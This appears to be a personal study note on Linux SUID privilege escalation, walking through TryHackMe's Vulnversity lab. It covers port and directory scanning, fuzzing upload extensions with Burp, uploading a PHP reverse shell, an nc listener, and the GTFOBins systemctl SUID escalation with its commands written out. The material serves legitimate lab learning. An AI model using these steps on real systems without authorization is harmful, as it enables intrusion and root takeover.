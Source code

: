 SUID = set user ID
SGID = set group ID

# SUID Overview
- permission for linux files > (file-owner)(group)(everyone)
- SUID allows users to execute files with permissions of a specified user. 
```bash
find / -perm -u=s -type f 2>/dev/null #hunt for files with s in permissions
#not everything is vulnerable, can use gtfo bins after to search
```

# Gaining a Foothold
Using vulnversity from THM: https://tryhackme.com/room/vulnversity
- nmap scan >> 21, 22, 139, 445, 3128, 3333
	- 3333 > looks juicy with http title
- can use burpsuite
	- (use foxyproxy)
	- target > add to scope > show only in-scope items
- dirsearch
```bash
python3 dirsearch.py -u https://[IP:PORT] -e html -x 400,401,403
# /internal stands out >> check it
#can upload files?
#try php reverse sell penterseter monkey >>> edit and make sure IP and port are correct
```
- use burp > send to intruder > sniper attack
	- payload options > php3, php4, phtml, php6 >>> we are trying to fuzz the extension
	- we can grep out the 'extension not allowed' reply
- upload shell.phtml
- start listener
```bash
nc -nvlp 7777
#access to a shell > can escalate next
```

# Escalation via SUID
```bash
#use find command
find / -perm -u=s -type f 2>/dev/null

#systemctl juicy
```
- get from gtfobins
```bash
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```